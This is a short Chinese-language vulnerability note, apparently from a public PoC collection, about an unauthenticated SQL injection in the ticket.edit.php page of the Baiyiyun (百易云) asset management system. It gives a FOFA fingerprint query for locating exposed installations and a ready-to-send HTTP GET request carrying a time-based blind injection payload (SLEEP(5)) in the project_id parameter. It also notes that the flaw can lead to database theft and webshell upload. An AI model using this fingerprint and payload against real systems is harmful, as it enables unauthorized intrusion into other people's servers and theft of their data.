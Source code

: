 # 百易云资产管理运营系统ticket.edit.php存在SQL注入漏洞

百易云资产管理运营系统ticket.edit.php存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```yaml
body="不要着急，点此"
```

## poc

```javascript
GET /adminx/ticket.edit.php?project_id=1%20AND%20(SELECT%206941%20FROM%20(SELECT(SLEEP(5)))OKTO) HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

![image-20240923093436135](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409230934196.png)